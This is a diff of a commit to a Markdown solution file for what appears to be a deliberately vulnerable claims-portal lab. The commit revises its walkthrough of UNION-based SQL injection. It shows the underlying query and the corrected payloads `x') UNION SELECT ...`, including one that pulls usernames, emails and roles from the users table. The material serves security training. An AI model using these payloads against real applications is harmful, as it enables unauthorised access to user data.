

Before and after one commit to WrathScythe/Claim-Submission-Portal, a Markdown page: solutions/sql_injection.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
gvsdfsdf

````diff
--- a/solutions/sql_injection.md
+++ b/solutions/sql_injection.md
@@ -70,10 +70,18 @@ Go to **Search Claims** (`/search-claims`).
 
 The search input is inserted into the SQL query **twice** (for `title LIKE` and `description LIKE`). The `--` comment operator neutralises everything after it on the same line, so only the first occurrence matters.
 
-To perform a `UNION`-based injection, the number of columns must match the original query (12 columns). Test with:
+The raw SQL query looks like this:
+
+```sql
+SELECT * FROM claims WHERE user_id = <id> AND (title LIKE '%INPUT%' OR description LIKE '%INPUT%') ORDER BY created_at DESC
+```
+
+Note the opening parenthesis `(` before `title`. The injection payload must **close this parenthesis** with `)` before the `UNION`.
+
+Test with:
 
 ```
-x' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 --
+x') UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 --
 ```
 
 > **Important:** Make sure to include a trailing space after `--`. PostgreSQL requires it for the comment to be valid.
@@ -85,7 +93,7 @@ If the page loads without a "Query error" flash message, the column count is cor
 Enter the following payload in the search box:
 
 ```
-x' UNION SELECT id, username, email, username, role, 0.0, role, created_at, created_at, NULL, NULL, NULL FROM users --
+x') UNION SELECT id, username, email, username, role, 0.0, role, created_at, created_at, NULL, NULL, NULL FROM users --
 ```
 
 This maps user data to the columns the template renders:
````
Also changed, not shown: other parts of solutions/sql_injection.md (+2 -2 lines).
